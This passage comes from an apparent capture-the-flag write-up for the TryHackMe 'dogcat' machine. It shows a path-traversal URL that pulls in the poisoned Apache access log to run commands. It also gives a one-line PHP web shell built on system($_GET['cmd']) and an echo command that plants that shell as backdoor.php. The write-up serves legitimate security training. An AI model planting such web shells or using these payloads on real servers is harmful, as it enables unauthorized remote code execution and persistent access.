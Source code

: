 By visiting <a href="https://dogcat.thm/?view=/var/www/html/cat.php../../../../../var/log/apache2/access&ext=.log&cmd=id" target="_blank"><er>http://dogcat.thm/?view=/var/www/html/cat.php../../../../../var/log/apache2/access&ext=.log&cmd=id</er></a>, you should see the output of ```id``` in the logs prepended by the marker ```[Output]:```
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-27 17_00_43-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>id output in the web page</i></center>
<br/>

##### **<strong><font color="SteelBlue">Backdooring the web shell:</font></strong>**
To upgrade our basic web shell, we can stage a backdoor, which is essentially a PHP script that will contain the below PHP code, and then we can use this backdoor to get remote code execution on the webserver.

```php
<?php echo '[Output]: '; system($_GET['cmd']); ?>
```

To do so, we can use our web shell to execute the following command:
```bash
echo '<?php echo "[output]: ";system($_GET["cmd"]); ?>' > backdoor.php
```
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-27 20_30_26-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">


[Output]: <?php system($_GET['cmd']); ?>